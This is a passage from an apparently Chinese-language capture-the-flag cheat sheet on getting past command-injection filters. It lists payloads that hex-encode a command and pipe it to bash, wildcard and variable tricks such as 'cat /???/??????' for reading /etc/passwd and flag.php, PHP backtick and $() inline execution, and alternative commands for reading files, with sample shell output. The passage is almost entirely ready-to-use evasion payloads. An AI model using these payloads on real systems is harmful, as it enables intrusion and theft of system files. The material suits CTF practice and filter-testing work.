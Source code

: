 ```sh
cat flag.php -> 63617420666c61672e706870
echo "63617420666c61672e706870"|xxd -r -p|bash
#xxd: 二进制显示和处理文件工具,cat: 以文本方式ASCII显示文件
#-r参数：逆向转换。将16进制字符串表示转为实际的数
#-ps参数：以 postscript的连续16进制转储输出，也叫做纯16进制转储。
#-r -p将纯十六进制转储的反向输出打印为了ASCII格式。
```

### 正则表达式绕过

```sh
cat /???/??????
cat /???/pass*
cat /etc$u/passwd
```

### 通配符绕过

```sh
cat *
cat f*
/???/?at flag.php #/bin/cat flag.php
/???/?at ????????
/???/?[a][t] ????????
/???/?[a][t] ?''?''?''?''?''?''?''?''
/???/?[a]''[t] ?''?''?''?''?''?''?''?''
/???/[:lower:]s #ls
```

## 过滤命令执行函数，如过滤system()

### 编码绕过

url编码

### 内敛执行绕过

```sh
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
```

## 过滤一些读取文件的命令（如cat）

### 绕过方法

```sh
[root@kali flag123]# curl file:///flag123/flag
flag{suifeng}
[root@kali flag123]# strings flag 
flag{suifeng}
[root@kali flag123]# uniq -c flag
        1 flag{suifeng}
[root@kali flag123]# bash -v flag
flag{suifeng}
flag: line 1: flag{suifeng}: command not found
[root@kali flag123]# rev flag
}gnefius{galf
[root@kali flag123]#
```
